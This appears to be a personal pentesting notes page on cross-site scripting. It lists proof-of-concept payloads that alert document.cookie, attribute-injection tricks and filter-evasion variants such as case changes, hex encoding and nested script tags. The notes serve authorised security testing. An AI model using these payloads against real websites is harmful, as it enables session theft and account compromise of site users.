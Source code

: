```yaml
---
layout: page
title:  "Cross Site Scripting (XSS)"
permalink: "xss.html"
tags: [security, web]
summary: ""
---
```

## Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


## Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

## Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

## Filters evading
### script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`


## Resources and references
* [Example of finding an XSS bug](https://medium.com/@marin_m/how-i-found-a-5-000-google-maps-xss-by-fiddling-with-protobuf-963ee0d9caff)
* [Toole for easy XSS](https://github.com/chinarulezzz/pixload/blob/master/README.md)
* [A reflected XSS on Facebook](https://medium.com/@win3zz/simple-story-of-some-complicated-xss-on-facebook-8a9c0d80969d)